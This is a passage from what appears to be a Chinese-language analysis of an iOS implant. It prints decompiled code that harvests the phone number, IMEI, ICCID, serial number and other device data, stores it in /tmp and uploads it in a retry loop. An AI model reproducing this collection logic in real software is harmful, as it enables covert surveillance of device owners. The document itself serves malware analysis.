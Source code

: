 从设备批量上传数据。来看看是如何实现的：

```
-[Service uploadDevice] `{`
  NSLog(@"uploadDevice");
  info = [Util dictOfDeviceInfo];
  while( [self postFiles:info remove:1] == 0) `{`
    [NSThread sleepForTimeInterval:10.0];
    info = [Util dictOfDeviceInfo];
  `}`
`}`
```

NSLog 的调用确实存在植入代码于中，如果通过数据线将iPhone连接到Mac并打开Console.app，可以在植入代码运行时看到这些日志消息。

[Util dictOfDeviceInfo] ：

```
+[Util dictOfDeviceInfo] `{`
  struct utsname name = `{``}`;
  uname(&amp;name);
  machine_str = [NSString stringWithCString:name.machine
                          encoding:NSUTF8StringEncoding]

   // CoreTelephony private API
  device_phone_number = CTSettingCopyMyPhoneNumber();
  if (!device_phone_number) `{`
    device_phone_number = @"";
  `}`

  net_str = @"Cellular"
  if ([self isWifi]) `{`
    net_str = @"Wifi";
  `}`

  dict = @`{`@"name":         [[UIDevice currentDevice] name],
           @"iccid":        [self ICCID],
           @"imei":         [self IMEI],
           @"SerialNumber": [self SerialNumber],
           @"PhoneNumber":  device_phone_number,
           @"version":      [[UIDevice currentDevice] systemVersion]],
           @"totaldisk":    [NSNumber numberWithFloat:
                              [[self getTotalDiskSpace] stringValue]],
           @"freedisk":     [NSNumber numberWithFloat:
                              [[self getFreeDiskSpace] stringValue]],
           @"platform":     machine_str,
           @"net":          net_str`}`

  path = [@"/tmp" stringByAppendingPathComponent:[NSUUID UUIDString]];

  [dict writeToFile:path atomically:1]

  return @`{`@"device.plist": path`}`
`}`
```
